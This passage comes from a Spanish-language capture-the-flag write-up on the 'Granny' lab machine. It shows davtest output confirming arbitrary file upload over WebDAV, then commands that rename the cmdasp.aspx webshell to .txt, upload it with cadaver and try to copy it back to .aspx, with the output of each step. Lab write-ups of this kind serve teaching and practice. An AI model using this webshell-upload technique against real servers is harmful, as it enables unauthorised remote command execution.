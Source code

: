 ```
EXEC	txt	FAIL
EXEC	php	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.jsp
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.pl
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.html
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.cfm
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.jhtml
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.txt
PUT File: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.php
Executes: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.html
Executes: http://10.129.95.234/DavTestDir_vLRUiLDTxMIQSv/davtest_vLRUiLDTxMIQSv.txt
```

Comprobamos que la `web` efectivamente es `vulnerable`

![](/assets/img/Granny/image_2.png)

## Web Exploitation

He probado a subir un archivo `asp` y no me ha funcionado la `webshell`, sin embargo, si me ha funcionado la `webshell` con un archivo `.aspx`. Estaré usando la `webshell` que se encuentre en `/usr/share/webshells/aspx/cmdasp.aspx`, vamos a ponerle de extensión `.txt` y una vez subido el archivo le `cambiaremos` el nombre de `extensión`.

```
# cp /usr/share/webshells/aspx/cmdasp.aspx .

# mv cmdasp.aspx cmdasp.txt

# cadaver 10.129.95.234                     
dav:/> put cmdasp.txt 
Uploading cmdasp.txt to `/cmdasp.txt':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> copy cmdasp.txt cmdasp.aspx
Copying `/cmdasp.txt' to `/cmdasp.aspx':  failed:
Could not parse response: XML parse error at line 1: Extra content at the end of the document
```
